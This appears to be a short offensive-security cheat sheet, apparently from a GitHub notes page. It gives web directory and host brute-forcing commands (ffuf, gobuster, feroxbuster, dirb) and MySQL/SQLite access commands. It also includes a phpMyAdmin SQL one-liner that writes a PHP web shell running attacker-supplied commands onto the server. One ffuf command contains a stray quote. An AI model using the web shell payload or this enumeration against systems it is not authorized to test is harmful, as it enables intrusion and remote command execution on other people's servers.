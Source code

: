 ### ffuf
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://url/FUZZ'
```
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://url/ -H 'Host: FUZZ.host'
```

### Gobuster
```bash
gobuster dir -u <url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 25 -x html,php
```

### Feroxbuster
```bash
feroxbuster -u <url> -e -x html,js,php
```

### Dirb
```bash
dirb url -R
```

### GUI
```bash
dirbuster
```
```bash
owasp-zap
```

# PhpMyAdmin
### Quick Shellcode
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/dir/dir/file.php"
```

# MySql
### Connect to mysql
```bash
mysql -h localhost -u myname -p
```
### Show Info
```
SHOW DATABASES;
use db_name
SHOW TABLES;
select * from table_name
```
### Open SQLite3
```bash
sqlite3 database.sqlite3
```
or open in vs code

